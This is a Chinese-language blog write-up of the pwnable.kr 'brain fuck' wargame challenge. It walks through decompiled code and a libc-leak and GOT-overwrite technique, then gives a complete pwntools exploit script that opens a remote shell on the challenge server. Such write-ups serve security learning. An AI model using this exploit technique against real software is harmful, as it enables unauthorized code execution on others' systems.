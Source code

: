 ```yaml
---
layout: post
title: "Rookiss Writeup [pwnable.kr]"
tags: [pwn, security]
---
```


（PS：文章内容会随着做题进度进行更新）

### [brain fuck]

> I made a simple brain-fuck language emulation program written in C.<br>
> The [ ] commands are not implemented yet. However the rest functionality seems working fine.<br>
> Find a bug and exploit it to get a shell. 
>
> Download : http://pwnable.kr/bin/bf<br>
> Download : http://pwnable.kr/bin/bf_libc.so
>
> Running at : nc pwnable.kr 9001

`bf` 为 32 位 ELF 程序：

![img]({{ site.url }}/public/img/article/2015-07-25-rookiss-writeup-pwnable-kr/brain-fuck-1.png)

使用 IDA 分析，程序会让你输入一串字符（最多1024bytes）然后遍历字符进行解析：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@4
  int v4; // edx@4
  size_t i; // [sp+28h] [bp-40Ch]@1
  int v6; // [sp+2Ch] [bp-408h]@1
  int v7; // [sp+42Ch] [bp-8h]@1
	
  v7 = *MK_FP(__GS__, 20);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(&v6, 0, 0x400u);
  fgets((char *)&v6, 1024, stdin);
  for ( i = 0; i < strlen((const char *)&v6); ++i )
    do_brainfuck(*((_BYTE *)&v6 + i));
  result = 0;
  v4 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}
```
	
`do_brainfuck` 函数有一些列对指针 `p` 进行操作的分支：

```c
int __cdecl do_brainfuck(char a1)
{
  int result; // eax@1
  int v2; // ebx@7
	
  result = a1;
  switch ( a1 )
  {
    case '>':
      result = p++ + 1;
      break;
    case '<':
      result = p-- - 1;
      break;
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(_BYTE *)p);
      break;
    case ',':
      v2 = p;
      result = getchar();
      *(_BYTE *)v2 = result;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```
	
这里的指针 `p` 是一个字符型指针，每次自增或自减会使得指向的地址 `+0x1` 或 `-0x1`。根据分析可以得到如下解析说明：

	'>' ==> p++
	'<' ==> p--
	'+' ==> *p += 1
	'-' ==> *p -= 1
	'.' ==> putchar(*p)
	',' ==> *p = getchar()
	'[' ==> puts(xxxx)
	
这里既能控制指针，又能读写指针指向地址的值，并且指针 `p` 初始值为 `0x0804A0A0 (tape)`，而往低地址一点就是 `.got.plt`。因为题目提供了 libc 文件，所以这里可以通过泄漏 `.got.plt` 中的 `fgets()` 函数地址来计算目标环境的 `system()` 函数地址，然后重写 `.got.plt` 结构来使得 `fgets()` 的 GOT 变为 `system()`，`memset()` 的 GOT 变为 `gets()`，然后通过修改 `putchar()` 的 GOT 为主函数 `main()`，从而执行到 `0x08048700 - 0x08048734` 处代码的时候实际上执行的是 `system(gets())`：

	.text:08048700                 mov     dword ptr [esp+8], 400h ; n
	.text:08048708                 mov     dword ptr [esp+4], 0 ; c
	.text:08048710                 lea     eax, [esp+2Ch]
	.text:08048714                 mov     [esp], eax      ; s
	.text:08048717                 call    _memset         ; rewrite memset() to fgets()
	.text:0804871C                 mov     eax, ds:stdin@@GLIBC_2_0
	.text:08048721                 mov     [esp+8], eax    ; stream
	.text:08048725                 mov     dword ptr [esp+4], 400h ; n
	.text:0804872D                 lea     eax, [esp+2Ch]
	.text:08048731                 mov     [esp], eax      ; s
	.text:08048734                 call    _fgets          ; rewrite fgets() to system()
	.text:08048739                 mov     dword ptr [esp+28h], 0
	.text:08048741                 jmp     short loc_8048760
	
最终的 exp 如下：

```python
#!/usr/bin/env python
# coding: utf-8

from pwn import *

# Remote EXP
libc = ELF('./bf_libc.so')
p = remote('pwnable.kr', 9001)

# Local EXP
# libc = ELF('./libc.so.6')
# p = process('./bf')


p.recvline_startswith('type')

# Move the pointer to .got.plt fgets()
payload = '<' * (0x0804A0A0 - 0x0804A010)
# Print .got.plt fgets() address in memory each bytes
payload += '.>' * 4
# reMove the pointer to .got.plt fgets()
payload += '<' * 4
# Write .got.plt fgets() to system()
payload += ',>' * 4
# Move the pointer to .got.plt memset()
payload += '>' * (0x0804A02C - 0x0804A014)
# Write .got.plt memset() to fgets()
payload += ',>' * 4
# Writr .got.plt putchar() to main() 0x08048671
payload += ',>' * 4
# Call putchar(), actually main() called
payload += '.'

p.sendline(payload)

fgets_addr = p.recvn(4)[::-1].encode('hex')
system_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['system']
gets_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['gets']

p.send(p32(system_addr))
p.send(p32(gets_addr))
p.send(p32(0x08048671))
p.sendline('/bin/sh')
p.interactive()
```


